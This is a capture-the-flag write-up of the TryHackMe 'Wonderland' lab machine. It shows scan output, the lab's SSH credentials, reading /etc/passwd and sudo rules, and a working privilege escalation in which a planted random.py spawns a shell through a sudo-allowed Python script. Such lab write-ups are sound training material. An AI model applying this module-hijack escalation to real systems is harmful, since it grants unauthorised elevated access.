

# Wonderland Writeup
<!-- Description -->


Completed on ??/??/20??
<!-- /Description -->
## Table of Contents
<!-- TOC -->
- [TryHackMe - Wonderland - WriteUp](#TryHackMe-Wonderland-Writeup)
  - [Table of Contents](#table-of-contents)
  - [Let's Get Going!](#lets-get-going)
    - [Enumeration](#enumeration)
      - [Nmap Scan](#nmap-scan)
      - [Nikto Scan](#nikto-scan)
      - [Directory Fuzzing](#directory-fuzzing)
      - [Exploring Wonderland](#exploring-wonderland)
      - [Sudoers](#sudoers)
    - [Exploitation](#exploitation)
    - [Post Exploitation](#post-exploitation)
<!-- /TOC -->
---
## Let's Get Going
### Enumeration
#### Nmap Scan
We start as usual with the nmap scan
```bash
$ nmap -sC -sV -oN nmap/initial $IP     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-30 16:10 EST
Nmap scan report for 10.10.138.169
Host is up (0.11s latency).
Not shown: 918 closed tcp ports (conn-refused), 80 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
|_  256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As the port 80 is open, I decided to check the website myself.



The page source reveals nothing and checking common file names and directories returned nothing. So I decided to continue with a nikto scan and some directory fuzzing with ffuf.
#### Nikto Scan
```bash
$ nikto -h http://$IP              
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.138.169
+ Target Hostname:    10.10.138.169
+ Target Port:        80
+ Start Time:         2023-01-30 16:16:10 (GMT-5)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3092: /img/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2023-01-30 16:39:43 (GMT-5) (1413 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The nikto scan returned no results.
#### Directory Fuzzing
```bash
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP/FUZZ -e ".php,.html"      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.138.169/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 259ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 188ms]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 157ms]
```
The directory fuzzing was successful and we find a way to keep going. Upon visiting /r we got the following
```
Keep Going.
"Would you tell me, please, which way I ought to go from here?"
```
The /r was kinda odd as a directory name, so I tried /r/a and got a result as well! 
```
Keep Going.
"That depends a good deal on where you want to get to," said the Cat.
```
/r/a/a gave no results while /r/a/b was successful. It seems like the story is playing out within the subdirectories. You can notice as well that /r/a/b kinda build up to the word "rabbit" which was a title in the root directory page. And eventually, visiting /r/a/b/b/i/t returns a hint.


So Alice must now open the door to enter wonderland. In the page source, you find as well what looks like credentials
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
After doing some directory fuzzing and getting no results, I decided to search elsewhere. The final page found mentions a door to access wonderland which could mean the machine and a way to access remote machines is SSH! Using the found credentials we successfuly login to the machine.
```bash
$ ssh alice@$IP
Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$
```
#### Exploring Wonderland
Executed some commands to gather info about the machine
```bash
$ uname -a
Linux wonderland 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
(Not that old linux kernel version)
```bash
$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
```
(Same for the Ubuntu version)
```bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash

$ ls /home
alice  hatter  rabbit  tryhackme
```

#### Sudoers 
One thing I always check when I get access to a new machine, is the command "sudo -l" since its really easy for the admin to mess up with it and allow us to get access to things we shouldn't. Lucky for me this was the case.
```bash
$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
So it says we are allowed to execute with python the readonly file "walrus_and_the_carpenter.py" (code below) as user "rabbit".
```python3
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

...
"""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
Is it possible for us to mess up with the execution of this script? Well, one thing we can notice is that the path to import the random library is not specified. So if we were to create the file "random.py" and execute the script from the same directory, python would prioritize this file over the "random.py" in the PYTHONPATH. We created random.py in a way that when called, would spawn for us a shell.
```python3
import pty
def choice(idontcare):
    pty.spawn("sh")
    exit()
```
Now we execute 
```bash
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
and we got ourselves a shell as the user "rabbit"!
```
$ whoami
rabbit
```
---
### Exploitation
---
### Post Exploitation
---

> Any feedback would be appreciated. Thank you !
